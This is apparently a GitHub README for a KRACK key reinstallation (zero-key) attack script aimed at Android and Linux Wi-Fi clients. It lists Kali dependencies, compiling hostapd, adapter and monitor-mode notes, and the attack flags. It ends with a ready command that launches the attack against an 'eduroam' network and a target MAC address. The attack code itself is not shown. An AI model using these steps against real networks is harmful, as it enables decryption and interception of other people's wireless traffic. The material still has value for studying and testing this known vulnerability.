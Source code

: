 # Key reinstallation attack against Android and Linux devices

## DIPENDANCIES:
This script must be run in Kali Linux, ensure that all the dependancies are installed 
```bash
apt-get update and pip update 
apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
pip install docopt
```
To compile hostapd, navigate to the hostapd directory
``` bash
cp defconfig .config
make -j 2
```
May need to disable hardware encryption
used --disable-hw to do so, then reboot to take effect

All the files to run the exploit are located in the folder "krackattack"
krack-zero-key.py is the main script
libclass.py is a class library for the main script

## RUNNING THE SCRIPT:

USE:
-h or --help
This will print the help message and usage parameters
requires 2 interfaces, both need to be compatible with Kali and be able to run in monitor mode.
The interfaces used in testing are:

	TP-Link WN722N
	ArrisGro wireless adapter with a Ralink chipset

Note: Some adapters may not detect when a frame is injected despite checks, this can cause a feedback loop in the script. Move the interface's further appart from each other (<1 meter), or swape their roles in the script

Note: If error Too many files open in system occours, run with -r option to reset
the interface configuration. If the error still persists, then run the script without --target

OPTIONS:
```
-k - This will run the key reinstalltion attack
-r - Cleans up configuration done by the script, useful in the event of a crash
-v - Gives verbose output, this shows the pink debug message
--vv - Gives loads of verbose output - WARNING - shows all frames send and recived, including beacons
--target - it's reccomended to use a specific target device (Mac address), if two devices connect without a target then the attack might not complete
--disable-hw - to disable hardware encryption, it might interfere with the script
```
##EXAMPLE:
Launches the attack:
```bash
python krack-zero-key.py -k wlan0 wlan1 eduroam --target ff:ff:ff:ff:ff:ff 
```
Cleans up (the interfaces must be entered in the same order as when the script was last run):
```bash
python krack-zero-key.py -r wlan0 wlan1
```
